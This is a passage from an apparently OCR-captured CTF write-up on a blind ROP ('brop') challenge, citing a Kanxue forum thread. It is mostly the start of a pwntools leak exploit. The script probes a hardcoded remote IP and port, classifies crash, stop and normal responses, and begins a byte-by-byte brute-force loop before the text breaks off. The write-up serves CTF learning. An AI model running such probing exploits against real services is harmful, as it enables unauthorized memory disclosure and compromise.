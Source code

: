  

## brop 

参考看雪ctf

https://bbs.pediy.com/thread-272950.htm

泄露exp:

 

from pwn import *

context.log_level = "critical"

ip = '114.132.125.59'

port = 30610

 

 

 

def probe(v, want=b"TNT TNT!"):

  s = None

  try:

​    s = remote(ip, port)

​    s.recvuntil(b"hacker, TNT!\n")

​    s.send(v)

​    r = s.recv(timeout=3)

​    if (want is not None and want in r) or (want is None and len(r) > 0):

​      return "normal"

​    else:

​      return "stop"

  except EOFError:

​    return "crash"

  finally:

​    if s:

​      s.close()

  return None

 

 

def test(prefix):

  for i in range(256):

